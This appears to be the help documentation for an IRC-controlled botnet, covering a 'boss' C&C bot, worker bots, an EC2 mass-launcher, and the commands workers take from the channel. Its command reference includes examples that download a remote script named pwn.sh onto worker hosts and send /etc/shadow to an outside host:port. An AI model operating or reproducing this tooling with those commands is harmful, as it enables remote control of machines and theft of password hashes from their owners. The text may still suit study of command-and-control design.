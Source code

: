 .. _botnet:

BotNet Help
===========

Quick overview
--------------

The botnet is composed of two components, the boss and any number of workers.
The first step when using the botnet is to start up the boss.

Here is an example::

    python boss.py -c secretbotz -n daboss1 -x qwerty

This will start the boss using "#secretbotz" as the command channel.
The boss will be identified by the nickname "daboss1".  To auth with the boss
you will send it the message ``!auth qwerty``.  The default host is
irc.freenode.net and the default port is 6667, so it will use thoes values.  You
should be able to join #secretbotz using your IRC client and see "daboss1" just
chilling out::

    <cleifer> !auth qwerty
    <daboss1> Success

Next, start up any number of workers.  The workers will need to know the nick
of the command bot so they can register themselves and start accepting tasks::

    python worker.py -b daboss1

Now you should be able to ask daboss1 for some status and see that your worker
has been registered::

    <cleifer> !status
    <daboss1> 1 workers available
    <daboss1> 0 tasks have been scheduled

Let's execute a program on the worker machine::

    <cleifer> !execute run vmstat
    <daboss1> Scheduled task: "run vmstat" with id 1 [1 workers]
    <daboss1> Task 1 completed by 1 workers

What was the output of the command?

::

    cleifer> !print
    <daboss1> [w0rk3r:{alpha}] - run vmstat
    <daboss1> procs -----------memory---------- ---swap-- -----io---- -system-- ----cpu----
    <daboss1> r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa
    <daboss1> 0  0      0 977784 504004 910144    0    0    46    29  103  443  3  1 96  0


The Boss
--------

The Boss is responsible for coordinating a given number of
worker bots.  The Boss is given a channel and a secret password,
when you join that channel and authenticate with the boss, you will
be able to issue commands to the workers::

    <you>  /join #secret-channel
    <you>  !auth my-password
    <boss> Success


Starting the Boss
^^^^^^^^^^^^^^^^^

``python boss.py [options]``

======  ============================ ====================
switch  meaning                      example
======  ============================ ====================
-s      server to connect to         -s irc.freenode.net
-p      port to connect on           -p 6667
-n      nickname to use for boss     -n boss1337
-x      secret used to auth          -x sshhh!
-c      c&c channel                  -c #secret-channel
-f      logfile                      -f /var/log/boss.log
-v      verbosity of logging (0 - 2) -v 1
======  ============================ ====================


The Worker
----------

The Worker is responsible for executing tasks you send to the boss.  The worker
communicates solely with the boss, executing tasks on the local machine and reporting
its results back when finished.  Behind-the-scenes the worker initialization looks
like this:

1. message the boss and ask to register (tries every 30s)
2. upon receiving confirmation, join the C&C channel with the other workers
3. work on tasks issued by the boss via the C&C channel, and report back results


Starting the worker
^^^^^^^^^^^^^^^^^^^

``python worker.py [options]``

======  ============================ ====================
switch  meaning                      example
======  ============================ ====================
-s      server to connect to         -s irc.freenode.net
-p      port to connect on           -p 6667
-n      base nickname for worker     -n worker
-b      nickname of boss *important* -b daboss1
-f      logfile for output           -f /var/log/worker.log
-v      verbosity of output 0 -2     -v 1
======  ============================ ====================


Launching a number of workers using EC2
---------------------------------------

The BotNet comes with a launcher to make it easy to spin up an arbitrary number
of workers using amazon's EC2.  This launcher requires [boto](https://github.com/boto/boto),
the python/aws library.

Example usage::

    # launch 10 workers pointing them at "daboss1"
    python launcher.py --workers=10 --boss=daboss1
    
    # show me the status of my workers
    python launcher.py show
    
    # terminate my workers, I'm done
    python launcher.py terminate


Running the launcher
^^^^^^^^^^^^^^^^^^^^

The launcher takes a number of options, which instruct it which AMI to use, what
size instances to create, number of workers to spawn, etc.  It also takes all the
same parameters the worker takes, and passes those along to the workers it spawns.

===============  ============================ ====================
switch           meaning                      example
===============  ============================ ====================

--workers        number of workers to spawn   --workers=5
--quiet          no output                    --quiet
--script         custom bootstrap script      --script=my-custom-script.sh
--ami            AMI id to use                --ami=ami-ab36fbc2
--key            AWS access key               --key=foo
--secret         AWS secret access key        --secret=bar
--type           Instance size                --type=t1.micro
--key-name       Security pair key name       --key-name=master-key
--group          Security group for instances --group=default
===============  ============================ ====================


The following switches will be passed on to the workers launched by the launcher:

======  ============================ ====================
switch  meaning                      example
======  ============================ ====================
-s      server to connect to         -s irc.freenode.net
-p      port to connect on           -p 6667
-n      base nickname for worker     -n worker
-b      nickname of boss *important* -b daboss1
-f      logfile for output           -f /var/log/worker.log
-v      verbosity of output 0 -2     -v 1
======  ============================ ====================


Issuing commands to the BotNet
------------------------------

The BotNet comes with a number of commands pre-programmed.  Here are the steps for
running commands on your botnet, assuming you started our boss and worker in the following
manner::

    python boss.py -c secretbotz -n daboss1 -x qwerty
    python worker.py -b daboss1

1. Join the channel that you started the boss in and authenticate::

       <you>     /join #secretbotz
       <you>     !auth qwerty
       <daboss1> Success

2. Ask for status::

       <you>     !status
       <daboss1> 1 workers available
       <daboss1> 0 tasks have been scheduled

3. Run a command::

       <you>     !execute run vmstat
       <daboss1> Scheduled task: "run vmstat" with id 1 [1 workers]
       <daboss1> Task 1 completed by 1 workers

4. View result returned by worker::

       <you>     !print
       <daboss1> [w0rk3r:{alpha}] - run vmstat
       <daboss1> procs -----------memory---------- ---swap-- -----io---- -system-- ----cpu----
       <daboss1> r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa
       <daboss1> 0  0      0 977784 504004 910144    0    0    46    29  103  443  3  1 96  0


Command reference
-----------------

========================================= =======================================================
Command                                   Meaning
========================================= =======================================================

!auth <password>                          authenticate with the boss
!execute (num workers) <command>          execute the given command (optional, number of workers)
!print (task id)                          print output of tasks or task with id
!stop                                     tell workers to stop their current task
!status                                   get status on workers and tasks
!uptime                                   boss uptime
!help                                     display list of commands
========================================= =======================================================

Commands you can execute on workers
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The following commands are available to workers using ``!execute``:

            
``run <program>``
    Run the given program on the worker's host.
    
    Example: ``!execute run vmstat``

``info``
    Get info about the host the worker is running on
    
    Example: ``!execute info``

``download <url>``
    Retrieve a remote file and store it in the working directory
    
    Example: ``!execute download http://my-awesome-script.com/pwn.sh``

``send_file <filename> <destination>``
    Send file at <filename> to given destination (host:port) -- this transers
    the raw data.
    
    Example: ``!execute send_file /etc/shadow some.fileserver.com:9001``

``ports``
    View what ports are open on the workers host
    
    Example: ``!execute ports``

``status``
    Return the workers queue size
    
    Example: ``!execute status``

``get_time <format>``
    Return the localtime from the workers host
    
    Example: ``!execute get_time``
